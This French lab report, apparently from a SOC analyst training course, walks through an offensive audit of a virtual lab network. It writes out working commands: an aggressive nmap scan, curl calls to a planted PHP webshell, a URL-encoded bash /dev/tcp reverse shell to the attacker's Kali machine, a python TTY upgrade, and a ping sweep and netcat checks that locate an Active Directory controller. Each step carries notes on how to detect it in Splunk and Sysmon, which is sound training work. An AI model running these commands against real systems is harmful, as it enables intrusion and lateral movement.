










# Phase 2 - Reconnaissance Active et Accès Initial (L'Audit Offensif)

**Environnement :** Home Lab virtuel sur Proxmox pour le projet Iron4Software — Formation Analyste SOC - CyberUniversity (Liora x Sorbonne).

## Objectif du Lab
Dans cette phase, j'abandonne temporairement ma posture défensive pour endosser le rôle de l'attaquant (Red Team). L'objectif est de mener un audit offensif réaliste sur l'infrastructure externe d'Iron4Software. Je vais cartographier la cible, valider la présence de la vulnérabilité web injectée lors de la Phase 1, et transformer cette faille en une véritable tête de pont interactive (Reverse Shell) vers le réseau interne. En générant ce bruit réseau et ces exécutions de commandes malveillantes, je produis la matière première indispensable (les logs) qui me permettra de calibrer les capacités de détection de notre SIEM Splunk lors des phases ultérieures.

## Outils et Technologies
- **Système d'attaque :** Kali Linux.
- **Cartographie :** Nmap, Ping sweep.
- **Exploitation HTTP :** cURL (Interaction "stateless" avec le Webshell).
- **Communication réseau :** Netcat / `nc` (Écouteur pour le Reverse Shell).
- **Framework MITRE ATT&CK :** T1595 (Active Scanning), T1190 (Exploit Public-Facing Application), T1059.003 (Command and Scripting Interpreter).

## 1. Reconnaissance Active de l'Infrastructure (MITRE T1595)

La première étape de l'intrusion consiste à identifier les portes d'entrée potentielles sur l'adresse IP publique de l'entreprise (`192.168.50.7`).

**Exécution de la commande :**
Depuis le terminal de la machine d'attaque Kali, j'ai lancé un scan très aggressif et pas du tout subtil :

```bash
nmap -A -p- -T4 -oA rapport_audit_iron4 192.168.50.7
```

**Analyse "Sous le capot" :**
L'utilisation combinée des paramètres `-A` (agressif, détection d'OS, de version et scripts de vulnérabilités par défaut) et `-p-` (scan des 65535 ports) garantit qu'aucun service ne passe inaperçu. Le paramètre `-T4` accélère l'exécution en parallélisant les requêtes de manière agressive. Enfin, `-oA` me permet de sauvegarder les résultats dans tous les formats majeurs (texte, grepable, XML) pour la documentation de mon audit.



**Troubleshooting et Résultats :**
Le scan, bien qu'exhaustif, s'est achevé rapidement (117 secondes). L'outil a deviné avec 97% de certitude que la cible physique tournait sous FreeBSD (l'OS natif de pfSense). Cependant, il a identifié le port 80 comme étant ouvert et hébergeant un service `Apache httpd 2.4.58 ((Ubuntu))`. Cette dichotomie technique m'indique de manière certaine qu'une règle de traduction d'adresse (NAT / Port Forwarding) est active sur le pare-feu et me redirige vers un serveur interne sous Linux. Le port 53 (DNS) a été détecté mais a retourné un statut `REFUSED`, indiquant qu'il est correctement configuré pour bloquer les requêtes externes.

> **Contexte SOC & Blue Team :**
> Ce type de scan est le contraire de la subtilité. Envoyer des dizaines de milliers de requêtes de connexion (TCP SYN) en moins de deux minutes sur l'interface WAN inonde les journaux de pare-feu. Dans la Phase 4 de ce projet, cette volumétrie anormale sera le déclencheur idéal pour rédiger une règle de corrélation Splunk dédiée à la détection des scans de ports.

## 2. Validation de la Faille et Découverte Interne (MITRE T1190 & T1046)

L'accès initial ayant été obtenu par le dépôt du fichier `shell.php`, l'objectif est maintenant de valider l'exécution de code à distance (RCE), de cartographier le réseau interne aveuglément, et d'identifier une cible critique (Active Directory) pour la suite de l'audit.

### A. Premier contact via Webshell

Depuis Kali Linux, j'utilise l'outil `curl` pour interagir avec le webshell et exécuter mes premières commandes de reconnaissance :

**1. Vérification des privilèges :**
```bash
curl http://192.168.50.7/shell.php?cmd=whoami
```


* **Résultat :** `www-data`
* **L'analyse de l'attaquant :** La faille RCE fonctionne. Bien que je ne sois pas `root`, j'hérite des droits du compte de service d'Apache. C'est suffisant, car mon objectif n'est pas de détruire ce serveur web, mais de l'utiliser comme "pont" (pivot) vers le réseau interne. Le compte `www-data` a parfaitement le droit d'initier des communications réseau.

**2. Découverte du réseau interne :**
```bash
curl http://192.168.50.7/shell.php?cmd=ip+a
```


* **Résultat :** Découverte de l'interface `enp6s18` avec l'IP `192.168.3.11/24`. On connaît l'IP du serveur web maintenant.
* **L'analyse de l'attaquant :** C'est le jackpot de la phase de reconnaissance. Depuis l'extérieur, je ne voyais que le réseau public `192.168.50.0/24`. Je viens de "voir" derrière le pare-feu. Ma prochaine cible se trouve forcément dans ce sous-réseau `192.168.3.0/24`.

### B. Tentative d'énumération (Host Discovery) et limitation du protocole HTTP

Pour pivoter, je dois identifier les machines actives. Installer un outil comme `nmap` sur le serveur compromis laisserait des traces évidentes sur le disque ("méthode sale"). Je privilégie donc une approche furtive de type *Living off the Land* (LotL) en utilisant une boucle Bash pour faire un "Ping Sweep". Les adresses basses (`.1` à `.10`) sont mes cibles prioritaires, car elles hébergent souvent les infrastructures critiques, je fais quand même le sweep de `.1` à `.20` au cas où.

**La commande testée (Ping Sweep via HTTP) :**
```bash
curl -G "http://192.168.50.7/shell.php" --data-urlencode "cmd=for i in \$(seq 1 20); do ping -c 1 -w 1 192.168.3.\$i | grep 'from'; done"
```


* **Le problème (Timeout) :** La commande échoue ou coupe prématurément. Le serveur web (Apache/PHP) attend que la boucle de 20 pings se termine avant d'envoyer la réponse HTTP. Le délai cumulé des pings en échec provoque l'expiration de la connexion entre Kali et Ubuntu. 
* **La solution :** Pour gagner en stabilité et en interactivité, je dois abandonner les requêtes HTTP asynchrones et établir un véritable tunnel de communication bidirectionnel : un **Reverse Shell**.

### C. Élévation de l'accès : Le Reverse Shell (MITRE T1059.004)

Plutôt que d'essayer de forcer l'entrée, je vais ordonner au serveur Ubuntu de "sortir" de son réseau pour venir se connecter à ma machine d'attaque. Avec ce Reverse Shell j'obtiens ce qu'on appelle dans la *Cyber Kill Chain* le *Command and Control (C2)*, ou le moyen d'executer des commandes dans la machine victime pour atteindre l'*Attack on Objectives*. Les pare-feux autorisant presque toujours le trafic sortant par défaut.

**Étape 1 : Le serveur d'écoute (Kali - Terminal 1)**
Je configure Netcat pour écouter les connexions entrantes sur le port 4444 :
```bash
nc -lvnp 4444
```



**Étape 2 : Le déclenchement du payload (Kali - Terminal 2)**
Via le webshell, j'injecte un payload encodé en URL pour ordonner à l'Ubuntu de se connecter à ma Kali (`192.168.50.5`). Le navigateur (ou curl) a besoin que les caractères spéciaux (espaces, guillemets, chevrons) soient traduits pour ne pas casser la requête HTTP :
```bash
curl "http://192.168.50.7/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.50.5/4444%200%3E%261%22"
```


*Analyse du payload (Décodé : `bash -c "bash -i >& /dev/tcp/192.168.50.5/4444 0>&1"`) :*
Cette instruction ordonne au serveur Ubuntu de lancer un shell interactif (`bash -i`) et de rediriger l'entrée (`0`) et les sorties (`1`, `2`) du processus interactif Bash de l'Ubuntu directement vers un flux TCP pointant vers ma machine Kali. Les pare-feux bloquant rarement le trafic sortant, la connexion s'établit instantanément. 

**Le Résultat Magique :**
Dans mon Terminal 1, la connexion s'établit : `www-data@user:/var/www/html$`.



**Étape 3 : Stabilisation du Shell (TTY Upgrade)**
Le Reverse Shell brut obtenu via Bash est instable (pas de contrôle des tâches, un simple `Ctrl+C` tue la connexion, et pas d'autocomplétion). Pour le rendre pleinement interactif et obtenir un véritable TTY, j'exécute immédiatement cette commande en utilisant Python (présent par défaut sur Ubuntu) :
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Cela me donne un prompt complet et stable pour poursuivre mon intrusion confortablement, tout en générant de nouveaux processus enfants sur la machine victime.

> **Contexte SOC & Blue Team (Le NAT Sortant) :**
> Lors de la connexion du Reverse Shell, Kali affiche : `connect to [192.168.50.5] from (UNKNOWN) [192.168.50.7]`. La connexion semble provenir de l'IP du pare-feu (`.7`) et non du serveur Web (`.11`). C'est l'effet du NAT Sortant (Masquerading) de pfSense. Pour un analyste SOC, cela complexifie l'investigation externe, car la véritable source interne est masquée.

### D. Host Discovery et Port Fingerprinting interactif (Network Service Scanning - MITRE T1046)

Grâce à la stabilité du Reverse Shell, je peux désormais exécuter mon Ping Sweep proprement en tâche de fond (`&`).

**1. Le Ping Sweep :**
```bash
for i in {1..20}; do ping -c 1 -W 1 192.168.3.$i | grep "from" & done
```


* **Résultats :**
  * `192.168.3.11 (0.060 ms) - TTL=64` : Le serveur web Ubuntu, le Time To Live de 64 correspond géneralement à Linux et Mac.
  * `192.168.3.20 (0.349 ms) - TTL=64` : Un serveur interne Ubuntu.
  * `192.168.3.10 (0.565 ms) - TTL=128` : Une cible potentielle identifiée grâce au TTL.

* **L'analyse de l'attaquant :** Le **TTL de 128** est la signature réseau typique d'un système d'exploitation Windows. Identifier une machine Windows sur une IP critique (`.10`) c'est prometteur, je dois maintenant confirmer son rôle, idéalement un Contrôleur de Domaine (AD). La résolution DNS inverse (nslookup) étant inopérante en environnement Lab, je passe à l'empreinte de ports.

**2. Le Port Fingerprinting (Netcat) :**
J'utilise Netcat, déjà présent sur l'Ubuntu, pour scanner les ports vitaux d'un Active Directory :
```bash
nc -zv 192.168.3.10 88   # Kerberos
nc -zv 192.168.3.10 389  # LDAP
nc -zv 192.168.3.10 445  # SMB
```


* **Résultats :** Les trois ports répondent par un `succeeded!`.

* **L'analyse finale de l'attaquant :** C'est une confirmation mathématique. La combinaison `TTL=128` + `Ports 88/389/445 ouverts` est la signature absolue d'un Contrôleur de Domaine Active Directory. Je viens d'identifier le cœur du réseau (le Joyau) de manière furtive, sans avoir déclenché la moindre alerte de scan massif.

**3. Validation finale du routage :**
Avant de lancer mes outils offensifs (CrackMapExec) depuis ma Kali, je valide que le pare-feu interne permet la communication continue avec ma cible :
```bash
ping -c 2 192.168.3.10
```



La réponse confirme qu'il n'y a pas de cloisonnement réseau strict entre le serveur Web compromis et le réseau LAN. Le mouvement latéral peut commencer.

> **Contexte SOC & Blue Team :**
> L'établissement d'un Reverse Shell est un cauchemar pour la défense périmétrique traditionnelle, mais une mine d'or pour un SOC moderne. Ce comportement génère une connexion sortante initiée par un processus inattendu (le démon Apache engendrant un processus Bash qui ouvre un socket TCP). L'analyse de l'arborescence des processus (Process Lineage) et la surveillance des connexions réseau sortantes depuis les serveurs web exposés seront des piliers de notre stratégie de détection future.

## Implications pour un Analyste SOC
La compromission de la zone exposée est désormais totale. La faille applicative a été convertie en un accès système interactif. L'attaquant bénéficie d'une visibilité directe sur le réseau interne et a confirmé que la route vers le joyau de l'infrastructure (le Contrôleur de Domaine) était ouverte. En tant que défenseur, je sais que les traces de la reconnaissance active, des requêtes HTTP malveillantes et du processus Bash lié au Reverse Shell sont déjà en cours d'indexation dans Splunk. Le défi de la prochaine étape sera de suivre le mouvement latéral de l'attaquant vers la compromission des identifiants (Credential Access). Pour détecter la création de ce Reverse Shell (Process Lineage), je m'appuierai lors de la Phase 4 sur la télémétrie avancée des processus, typiquement capturée via **Sysmon (Event ID 1 - Process Creation et Event ID 3 - Network Connection)**. Cela me permettra de créer une alerte redoutable : déclencher une alarme critique dès qu'un processus web (Apache/www-data) engendre un interpréteur de commandes interactif (`bash` ou `python3`) initiant une connexion sortante.

---
*Fin du rapport de Lab.*